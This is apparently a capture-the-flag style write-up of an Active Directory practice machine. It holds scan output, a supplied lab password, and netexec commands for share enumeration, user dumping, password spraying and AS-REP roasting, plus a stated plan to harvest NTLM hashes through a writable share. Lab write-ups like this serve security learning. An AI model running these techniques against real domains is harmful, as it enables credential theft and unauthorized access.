# Intro

This is a Windows based machine from the 8th season and it is categorized as Easy.



We are provided a set of credentials as entry point so we should take it from there (j.fleischman: J0elTHEM4n1990!).

# Initial Enumeration

As initial point I will use NMAP to scan for possible interesting openings between the UDP services and so far nothing sticks out of ordinary here.

```
└─# nmap -F -sU 10.10.11.69
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-29 16:37 CEST
Nmap scan report for 10.10.11.69
Host is up (0.037s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 2.86 seconds

```

Next I will do same , but this time for all the 65K(ish) ports to see if anything interesting is reachable from the initial standing point. I see a AD environment so far nothing else is out of ordinary, like HTTPS and so on which this means this might be only about AD?

```
└─# rustscan -a 10.10.11.69 -- -A -T4

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-29 21:43:01Z)
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-29T21:44:38+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-29T21:44:38+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-05-29T21:44:38+00:00; +7h00m01s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-29T21:44:38+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49722/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49778/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

```

&nbsp;What is also important to mention here is that there is a CA as well so I guess it might have something to do with ADCS? Before moving forward I will add the "**fluffy.htb**" to the local hosts file.

# SMB

Now since I have a valid set of credentials I will start to abuse the SMB service to map and look for interesting information and I will start by foot-printing possible presence of network shares.

Indeed there is actually a non-standard IT share where we also posses write rights, this might be abused to harvest credentials via NTLM spoof...

```
└─# netexec smb dc01.fluffy.htb -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --shares
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE      
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share 

```

Before doing that I will dump the list of all domain admins so I can get a good starting point.

```
└─# netexec smb dc01.fluffy.htb -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --users 
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.69     445    DC01             Administrator                 2025-04-17 15:45:01 0       Built-in account for administering the computer/domain 
SMB         10.10.11.69     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.69     445    DC01             krbtgt                        2025-04-17 16:00:02 0       Key Distribution Center Service Account 
SMB         10.10.11.69     445    DC01             ca_svc                        2025-04-17 16:07:50 0        
SMB         10.10.11.69     445    DC01             ldap_svc                      2025-04-17 16:17:00 0        
SMB         10.10.11.69     445    DC01             p.agila                       2025-04-18 14:37:08 0        
SMB         10.10.11.69     445    DC01             winrm_svc                     2025-05-18 00:51:16 0        
SMB         10.10.11.69     445    DC01             j.coffey                      2025-04-19 12:09:55 0        
SMB         10.10.11.69     445    DC01             j.fleischman                  2025-05-16 14:46:55 0        

```

I also tried to password-spray with what i had so far but nothing came out of it.

```
└─# netexec smb dc01.fluffy.htb -d fluffy.htb -u users.txt -p 'J0elTHEM4n1990!'        
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\Administrator:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ca_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ldap_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\winrm_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 

```

And we can see that the default domain policy is not preventing us from spraying users as no threshold lockout in active so far, this is good to know before attempting any invasive task as brute-forcing ans so on.

```
└─# netexec smb dc01.fluffy.htb -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --pass-pol
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             [+] Dumping password info for domain: FLUFFY
SMB         10.10.11.69     445    DC01             Minimum password length: 7
SMB         10.10.11.69     445    DC01             Password history length: 24
SMB         10.10.11.69     445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.10.11.69     445    DC01             
SMB         10.10.11.69     445    DC01             Password Complexity Flags: 000000
SMB         10.10.11.69     445    DC01                 Domain Refuse Password Change: 0
SMB         10.10.11.69     445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.11.69     445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.11.69     445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.11.69     445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.11.69     445    DC01                 Domain Password Complex: 0
SMB         10.10.11.69     445    DC01             
SMB         10.10.11.69     445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.11.69     445    DC01             Reset Account Lockout Counter: 10 minutes 
SMB         10.10.11.69     445    DC01             Locked Account Duration: 10 minutes 
SMB         10.10.11.69     445    DC01             Account Lockout Threshold: None
SMB         10.10.11.69     445    DC01             Forced Log off Time: Not Set

```

Now I will also check for asreproastable account aka accounts that has the "**Do not require pre-authentication**" flag active but none account are found.

```
└─# netexec ldap dc01.fluffy.htb -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --asreproast asreproastable.txt
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
LDAP        10.10.11.69     389    DC01             No entries found!

```

